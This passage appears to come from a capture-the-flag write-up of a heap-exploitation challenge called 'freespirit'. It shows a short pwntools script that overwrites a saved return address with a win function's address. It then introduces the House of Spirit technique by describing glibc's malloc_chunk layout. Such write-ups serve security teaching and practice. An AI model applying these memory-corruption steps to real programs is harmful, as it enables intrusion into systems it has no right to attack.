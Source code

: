 ```python
p.sendlineafter("> ","1")
p.sendline(p64(win))
gdb.attach(p, "x/2gx {}".format(hex(saved_rip)))
context(terminal = ['tmux', 'splitw','-h'])
p.interactive() 
```

As we see in the image below we succefully overwrote the return address with the address of the **win** function.

<p align="center">

    <img src="/assets/images/freespirit/10.png">
</p>

Now if we just let **main** return then **win** will be executed right??
Well...

<p align="center">

    <img src="/assets/images/freespirit/11.png">
</p>

You see `free` is complaining. The challenge isn't over yet and the good stuff starts now.

### The House of Spirit welcomes you.
---

Basically we can trick `free` into thinking that the address we pass to it is a valid allocated heap chunk.
A heap chunk looks like this.

```c
struct malloc_chunk {

INTERNAL_SIZE_T prev_size;
INTERNAL_SIZE_T size;
struct malloc_chunk * fd;
struct malloc_chunk * bk;
}
```

`prev_size` represents the size of the previous chunk if that chunk is free.
`size` represents the size of the current chunk.
The `fd` and `bk` pointers point to the next and previous free chunk and are only used if the current chunk is also free.
